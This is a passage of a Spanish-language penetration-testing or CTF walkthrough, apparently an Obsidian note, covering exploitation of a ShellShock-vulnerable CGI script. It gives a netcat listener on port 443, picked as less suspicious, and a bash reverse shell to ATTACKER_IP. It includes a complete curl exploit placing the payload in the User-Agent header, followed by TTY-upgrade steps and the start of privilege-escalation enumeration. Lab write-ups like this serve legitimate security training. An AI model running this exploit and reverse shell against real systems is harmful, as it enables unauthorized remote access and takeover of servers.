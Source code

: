 #### Paso 1: Configurar listener

```bash
# Escuchar en puerto 443 (menos sospechoso)
nc -nlvp 443
```

#### Paso 2: Ejecutar payload de reverse shell

```bash
# Payload básico de reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

#### Paso 3: Enviar exploit completo

```bash
# Exploit ShellShock completo con reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'" \
    http://IP_MAQUINA/cgi-bin/script.cgi
```

> [!warning] Importante
> Reemplaza `ATTACKER_IP` con tu dirección IP real. Verifica que no haya firewalls bloqueando la conexión reversa.

### Mejorar la shell obtenida

Una vez establecida la conexión, aplicamos [[Tratamiento de TTY]]:

```bash
# 1. Generar TTY interactiva
script /dev/null -c bash

# 2. Suspender proceso
# Ctrl + Z

# 3. Configurar modo raw (en tu máquina atacante)
stty raw -echo; fg

# 4. Reactivar (presionar Enter)

# 5. Configurar variables de entorno
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

---

## 🚀 Fase 3: Escalada de Privilegios

### Enumeración del sistema

```bash
# Verificar usuario actual
whoami
# Salida: www-data

# Obtener información del sistema operativo
lsb_release -a
```
